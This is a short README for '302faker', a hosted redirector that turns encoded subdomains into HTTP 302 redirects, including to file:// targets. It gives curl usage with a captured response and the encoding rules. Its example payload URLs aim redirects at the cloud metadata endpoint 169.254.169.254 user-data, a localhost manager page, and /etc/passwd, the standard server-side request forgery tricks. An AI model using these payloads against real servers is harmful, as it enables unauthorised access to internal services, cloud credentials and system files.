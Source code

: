 # 302faker

A Simple HTTP 302 Location-Header redirector with `file://` support.

### Usage: 

`curl http://patch.rip/t/302/http`


A Simple 302 Location redirector that redirects to the netloc part with some tricks:




`curl -I https://redirect_me__dev___etc___passwd.patch.rip/t/302/http`

```
    HTTP/2 302 
    date: Wed, 05 Oct 2022 11:26:41 GMT
    content-type: text/plain
    content-length: 33
    location: https://redirect_me.dev/etc/passwd
    fn-call-id: 01GEKY95TJNG8G010ZJ000001K
    x-served-by: redirect_me__dev___etc___passwd.patch.rip
    cf-cache-status: DYNAMIC
    report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=kSsgESvJJWwWoAuAW%2BAac6Z8JA1T9m26ucscfUbc5vAmwU7UU34oSQmmgQC0OBUttwJF1g9PTMRYd9ROZaN8%2F8Vyw3VOwhNP0nNYoc0adaHFgE88UCg6vPT0YAjrZYDYM7YQy05Rqwz23FxpwFdYQPFS0ca6MebVBTo7IQ%3D%3D"}],"group":"cf-nel","max_age":604800}
    nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
    server: cloudflare
    cf-ray: 7555cdbd289d3762-MXP
    alt-svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400
``` 

Following replacements take place:

- redirect = redirect.replace('____', '?')
- redirect = redirect.replace('___', '/')
- redirect = redirect.replace('__', '.')

If you want to redirect to plain `http://` start with prepend `_`
Finally, starting with `__` will use `file://` as handler

Examples:

- http(s)://_169__254__169__254___latest___user-data.patch.rip/t/302/http
- http(s)://_localhost___manager___html.patch.rip/t/302/http
- http(s)://___etc___passwd.patch.rip/t/302/http


Made with 🤬 in 🇩🇪
